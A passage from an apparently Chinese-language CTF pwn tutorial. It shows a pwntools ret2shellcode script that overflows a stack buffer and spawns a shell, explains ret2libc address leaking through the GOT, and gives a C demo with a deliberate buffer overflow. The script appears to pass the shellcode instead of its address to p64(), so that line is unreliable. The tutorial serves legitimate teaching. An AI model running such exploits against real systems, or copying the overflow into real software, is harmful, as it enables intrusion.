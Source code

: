 脚本：

```plain
from pwn import*

io = process('./text')
shellcode_adr=0x404080
shellcode=asm(shellcraft.sh())
payload = b'a'*(0x10+8)+p64(shellcode)
io.sendline(shellcode)
io.sendline(payload)
io.interactive()
```

## 4.ret2libc

### libc？

libc.so 是 Linux 系统中的 C 标准库动态链接库（shared library）。它包含了 C 语言程序常用的函数和符号，可以在程序运行时动态加载到内存中，并被程序调用。

在动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应程序中调用了的函数。所以 ret2libc 的含义便是返回调用 libc 库中的函数

### 调用？

当这个程序中没有调用我们想要劫持调用函数怎么办？那么我们就需要想方法获得函数在 libc 动态链接库中的真实地址了

引入概念：程序 GOT 表

GOT 表（Global Offset Table）是一种数据结构，用于存储程序中使用的全局变量或者函数的地址。在程序运行时，当程序需要访问一个全局变量或者调用一个全局函数时，它会先在 GOT 表中查找相应的地址，然后使用这个地址进行访问或者调用。

GOT 表通常用于实现动态链接（dynamic linking），在动态链接的情况下，程序在运行时会动态加载共享库（shared library），而这些共享库中的全局变量和函数的地址是未知的。因此，程序需要通过 GOT 表来获取这些全局变量和函数的地址，以便正确地访问或者调用它们。

同时还有一点：函数在 libc 动态链接库中的相对地址是固定的，也就是说，如果我们能够将一个函数的 got 表对应的地址打印出来，我们就能根据各个函数的相对地址来找到所有 libc 库函数的地址

那么我们的思路就是这样

泄露某个程序中调用的函数的真实地址—libc 版本—>获得 libc 基地址——>获得所有函数地址

### 泄露？

当程序中有输出函数时，我们就可以通过在返回地址构造输出函数以及控制函数参数的方式是函数打印 got 表内容然后再末尾接上主函数或者发生栈溢出的函数地址再次构造一次栈溢出，此时我们不仅打印出了函数的真实地址，通过 libc 版本获得 libc 基地址和所有函数地址，而且还能再执行一次栈溢出，此时我们就能通过控制参数构造危险后门函数来获得权限了

demo

```plain
#include<stdio.h>
#include<stdlib.h>

void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
int main()
{
init();
puts("ret2libc");
char b[0x10];
read(0,b,0x40);
    return 0;
}
```

